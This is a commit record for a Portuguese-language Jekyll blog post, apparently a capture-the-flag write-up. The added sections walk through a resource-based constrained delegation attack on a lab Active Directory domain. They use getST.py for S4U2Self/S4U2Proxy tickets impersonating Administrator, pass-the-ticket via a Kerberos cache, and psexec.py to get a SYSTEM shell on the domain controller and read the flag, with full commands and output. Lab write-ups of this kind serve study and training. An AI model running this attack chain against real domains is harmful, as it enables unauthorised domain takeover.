

Before and after one commit to redp4w/redp4w.github.io, a Jekyll site: the page built from _posts/2026-10-25-proxy-rbcd-active-directory.md, in a window 1280 px wide and 1400 px high, scrolled down 9251 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 9881 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
docs: registra S4U2Proxy, Pass-the-Ticket, PsExec e flag

```diff
--- a/_posts/2026-10-25-proxy-rbcd-active-directory.md
+++ b/_posts/2026-10-25-proxy-rbcd-active-directory.md
@@ -360,3 +360,120 @@ rbcd.py \
 ~~~
 
 Resultado: <code>LABPC01$</code> apareceu autorizada no objeto <code>DC01$</code>.
+
+
+<a id="tickets"></a>
+
+## 8. S4U2Self, S4U2Proxy e Pass-the-Ticket
+
+| Conceito | Significado |
+|---|---|
+| **TGT** | Ticket para pedir outros tickets ao KDC |
+| **TGS** | Ticket destinado a um serviço específico |
+| **SPN** | Identificador Kerberos de serviço, como <code>cifs/DC01.ctf.local</code> |
+| **S4U2Self** | Serviço solicita ticket representando outro usuário |
+| **S4U2Proxy** | Obtém ticket para o serviço de destino, conforme a delegação |
+| **ccache** | Arquivo de cache Kerberos usado pelo Linux |
+
+Agora que a delegação estava configurada, solicitei um **ticket CIFS para Administrator**, autenticando como a máquina que eu controlava:
+
+~~~bash
+cd /root/reports
+
+getST.py \
+  -spn 'cifs/DC01.ctf.local' \
+  -impersonate Administrator \
+  -dc-ip 10.64.163.15 \
+  'ctf.local/LABPC01$:LabPC2026!Strong'
+~~~
+
+Resultado:
+
+~~~text
+[*] Getting TGT for user
+[*] Impersonating Administrator
+[*] Requesting S4U2self
+[*] Requesting S4U2Proxy
+[*] Saving ticket in Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
+~~~
+
+<code>-spn</code> define o serviço; <code>-impersonate</code>, a identidade representada; <code>-dc-ip</code>, o KDC. Um aviso <code>CCache file is not found. Skipping...</code> não impediu o sucesso, porque a ferramenta obteve o TGT necessário.
+
+Ativei o cache para os próximos comandos:
+
+~~~bash
+export KRB5CCNAME="$PWD/Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache"
+klist -c "$KRB5CCNAME"
+~~~
+
+Saída comprovada:
+
+~~~text
+Default principal: Administrator@ctf.local
+Valid starting: 10/25/26 15:04:34
+Expires:        10/26/26 01:04:34
+Service:        cifs/DC01.ctf.local@CTF.LOCAL
+~~~
+
+<code>export</code> define uma variável de ambiente no shell e nos processos filhos: **não modifica o ticket, não o renova e não instala nada no Windows**. Esse cache continha um **ticket CIFS**, não a senha ou um TGT universal de Administrator.
+
+<a id="system"></a>
+
+## 9. Acesso administrativo, PsExec e flag
+
+Validar o ticket no SMB:
+
+~~~bash
+nxc smb DC01.ctf.local \
+  -d ctf.local \
+  -u Administrator \
+  -k --use-kcache
+~~~
+
+Resultado:
+
+~~~text
+[+] ctf.local\Administrator from ccache (Pwn3d!)
+~~~
+
+Depois, obter shell remoto:
+
+~~~bash
+psexec.py -k -no-pass \
+  -dc-ip 10.64.163.15 \
+  ctf.local/Administrator@DC01.ctf.local
+~~~
+
+O Impacket encontrou <code>ADMIN$</code> gravável, enviou um executável temporário e criou/iniciou um serviço pelo **Service Control Manager**. PsExec **deixa artefatos de serviço**, não é uma simples consulta.
+
+No prompt remoto:
+
+~~~cmd
+whoami
+whoami /priv
+hostname
+~~~
+
+Resposta:
+
+~~~text
+nt authority\system
+SeDebugPrivilege        Enabled
+SeImpersonatePrivilege  Enabled
+DC01
+~~~
+
+**Distinção importante:** a autenticação usou um ticket de <code>Administrator</code>, mas o executável de serviço criado pelo PsExec rodou como <code>LocalSystem</code>. Por isso o shell ficou como SYSTEM.
+
+A flag:
+
+~~~cmd
+cd C:\Users\Administrator\Desktop
+type flag.txt
+~~~
+
+~~~text
+THM{RBCD_S4U2Pr0xy_T1ck3t_Th3ft_2_DA}
+~~~
+
+**Resultado comprovado:** RBCD aceita, ticket S4U emitido, autenticação administrativa SMB, execução remota como SYSTEM e flag encontrada.
```
